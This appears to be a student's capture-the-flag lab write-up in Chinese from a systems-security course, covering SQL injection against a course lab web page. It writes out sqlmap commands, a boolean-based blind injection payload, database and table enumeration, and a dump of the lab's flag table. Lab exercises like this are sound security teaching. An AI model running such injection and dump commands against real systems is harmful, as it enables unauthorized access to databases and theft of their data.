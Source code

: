 ```yaml
---
created: 2025-04-07T19:20:00+08:00
modified: 2025-04-13T23:11:56+08:00
tags:
  - PhD/Course/Systems_Security
title: 第(8)周-SQL注入与凭据访问-攻击-SQL 4
---
```


> [!QUESTION]
> 本实验旨在通过实践让学生掌握 SQL 注入攻击技术, 学生需通过访问一个存在 SQL 查询功能的 Web 界面, 分析并测试该界面的安全漏洞, 探索基础的 SQL 万能密码注入及绕过过滤关键字的可能性, 当无法直接通过常规方法获取数据时, 则需运用布尔盲注技术, 编写并执行 Python 脚本, 通过判断 SQL 语句执行成功与否的返回结果, 逐步推断并获取数据库中敏感信息 (如 flag) 的具体内容, 最终完成攻击目标.

## 1. 漏洞分析过程

### 1.1. 注入点定位

- **目标 URL**: <http://d395b0cd-d62e-404e-8649-85891f603d2a.1.2024.thudart.com/index.php>
- **请求方式**: `POST` 方法
- **注入参数**: `search=answer`
- **响应特征**: 使用 `--not-string="再怎么找也找不到啦(✿◡‿◡)"` 参数标识错误响应特征

### 1.2. 漏洞验证

执行基础探测命令:

```sh
sqlmap --url="http://d395b0cd-d62e-404e-8649-85891f603d2a.1.2024.thudart.com/index.php" --method="POST" --data="search=answer" --level="5" --risk="3" --technique="B"
```

确认存在布尔盲注漏洞:

```
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=answer%' AND 6365=6365 AND 'sIqe%'='sIqe
---
```

## 2. 数据提取过程

### 2.1. 数据库枚举

```bash
sqlmap [...] --dbs
```

获取数据库列表:

```
information_schema
user_data
```

### 2.2. 表结构探测

```bash
sqlmap [...] -D "user_data" --tables
```

发现关键数据表:

```
+------+
| fff  |
| info |
+------+
```

### 2.3. 敏感数据提取

```bash
sqlmap [...] -D "user_data" -T "fff" --dump
```

获取最终 flag:

```
+----+--------------------------------------+
| id | flag                                 |
+----+--------------------------------------+
| 0  | 3c449e54-acb1-4f9b-b646-d034375c2e30 |
+----+--------------------------------------+
```
